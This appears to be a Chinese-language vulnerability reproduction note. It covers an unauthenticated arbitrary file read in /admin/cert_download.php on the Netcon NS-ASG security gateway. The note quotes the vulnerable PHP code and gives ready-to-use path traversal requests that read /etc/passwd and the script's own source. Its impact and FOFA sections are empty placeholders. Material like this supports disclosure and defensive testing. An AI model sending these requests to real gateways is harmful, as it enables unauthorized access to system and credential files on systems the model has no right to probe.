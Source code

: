 # 网康 NS-ASG安全网关 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

> [!NOTE]
>
> 网康 NS-ASG安全网关 

## FOFA

> [!NOTE]
>
> 网康 NS-ASG安全网关

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?> 
```

此文件没有对身份进行校验即可下载任意文件

```
/admin/cert_download.php?file=pqpqpqpq.txt&certfile=../../../../../../../../etc/passwd
```

![](image/qax-1.png)

```
/admin/cert_download.php?file=pqpqpqpq.txt&certfile=cert_download.php
```

![](image/qax-2.png)